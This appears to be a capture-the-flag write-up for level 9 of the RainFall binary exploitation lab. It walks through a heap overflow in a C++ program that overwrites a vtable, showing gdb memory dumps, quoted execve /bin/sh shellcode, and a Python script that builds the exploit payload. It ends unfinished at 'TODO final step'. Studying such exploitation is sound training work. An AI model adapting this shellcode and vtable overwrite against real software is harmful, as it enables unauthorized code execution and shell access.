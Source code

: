 # Level 9

For the first time, we have a C++ executable, so it is a bit trickier as things get mangled a little bit.
The program allocates two instances of the class `N`. The class contains an integer and a char array.

In the function setAnnotation, we will memcpy the entirety of our argv[1] into this char array.


We can override the vtable of the next object, the table that contains the object's methods,  replacing it with addresses to a  shell code in a  memory region we control, also adding a nope slide for extra piece of mind.
Let's get the address of the first object and check what it looks like in memory
```shell
level9@RainFall:~$ ltrace ./level9 ""
_Znwj(108, 0xbffff7d4, 0xbffff7e0, 0xb7d79e55, 0xb7fed280)      = 0x804a008
_Znwj(108, 5, 0xbffff7e0, 0xb7d79e55, 0xb7fed280)               = 0x804a078
[...]
+++ exited (status 11) +++
level9@RainFall:~$ gdb ./level9
(gdb) b *main+164
(gdb) r "BBBBaaaaBBBBaaaaa"
Breakpoint 1, 0x08048698 in main ()
(gdb) x/60x 0x804a008
0x804a008:      0x08048848      0x42424242      0x61616161      0x42424242
0x804a018:      0x61616161      0x00000061      0x00000000      0x00000000
0x804a028:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a038:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a048:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a058:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a068:      0x00000000      0x00000000      0x00000005      0x00000071
0x804a078:      0x08048848      0x00000000      0x00000000      0x00000000
0x804a088:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a098:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0a8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0b8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0c8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0d8:      0x00000000      0x00000000      0x00000006      0x00020f21
0x804a0e8:      0x00000000      0x00000000      0x00000000      0x00000000
```
Above we can see the vtable at the start of the first and second object, we can also see the value of `int x` near it's end.

We can confirm that the first object will overflow on the second's vtable after 108 bytes
```shell
(gdb) r $(python -c 'print "a"*108')
Starting program: /home/user/level9/level9 $(python -c 'print "a"*108')
Breakpoint 2, 0x08048698 in main ()
(gdb) x/40x 0x804a008
0x804a008:      0x08048848      0x61616161      0x61616161      0x61616161
0x804a018:      0x61616161      0x61616161      0x61616161      0x61616161
0x804a028:      0x61616161      0x61616161      0x61616161      0x61616161
0x804a038:      0x61616161      0x61616161      0x61616161      0x61616161
0x804a048:      0x61616161      0x61616161      0x61616161      0x61616161
0x804a058:      0x61616161      0x61616161      0x61616161      0x61616161
0x804a068:      0x61616161      0x61616161      0x61616161      0x61616161
0x804a078:      0x08048848      0x00000000      0x00000000      0x00000000
0x804a088:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a098:      0x00000000      0x00000000      0x00000000      0x00000000

```

Shellcode from [shell-storm.org](https://shell-storm.org/shellcode/files/shellcode-811.html): "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

t's now time to craft our exploit, we'll write our own vtable only consisting of the address of our shellcode that's coming up next, followed by a nop slide and then our shell code, right before the address of our fake vtable overwrighting the next one's.

It will look like this:
our fake vtable (start of shellcode `0x804A05C` * 8) -> 32bytes | padding (NOP `0x90`*48) -> 48bytes | shellcode -> 28 bytes | = 108 bytes, replacing 2nd obj vtable with ours at `0x804a00C`


Let's put it together in python
```python
#!/usr/bin/python
destination="\x0c\xa0\x04\x08"
start_of_shellcode="\x5c\xa0\x04\x08"
vtable=start_of_shellcode*8
padding="\x90"*0x30
shellcode="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
print vtable + padding + shellcode + destination
```

TODO final step
